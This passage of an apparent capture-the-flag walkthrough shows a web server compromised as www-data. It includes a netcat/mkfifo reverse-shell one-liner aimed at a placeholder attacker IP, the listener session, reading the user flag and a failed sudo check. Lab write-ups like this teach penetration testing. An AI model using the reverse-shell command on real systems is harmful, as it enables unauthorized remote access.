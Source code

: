 ```
			Line: 364<br />
			Function: require_once			</p>
</div>
```

We do get an RCE and as shown above after running the command `whoami` it returns a response of `systemwww-data`. But along with that we get an HTML code as well in the result along with the desired output. To resolve this issue, we can pop another shell using netcat. 

To do so, we need to first start a listener on our attacker machine using the command: `nc -nvlp 4444` and run the following command on the target machine: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_machine_IP> 4444 >/tmp/f
```

And we get a proper shell on our listener.

```

└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.157.210] 50814
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html
```

The next thing we need to do is go to `/home` directory and look for the user flag.

```
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root     root     4096 Jul 26  2019 .
drwxr-xr-x 24 root     root     4096 Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4096 Jul 26  2019 www-data
$ cd www-data
$ ls -la
total 12
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 .
drwxr-xr-x 3 root     root     4096 Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
$ cat flag.txt
```

And there we get the user flag!

### Privilege Escalation

The next task is to get the root flag. For this, we can first check the command that we can run with sudo privilege with the command `sudo -l` but we get an error.

```
$ sudo -l
sudo: no tty present and no askpass program specified
```
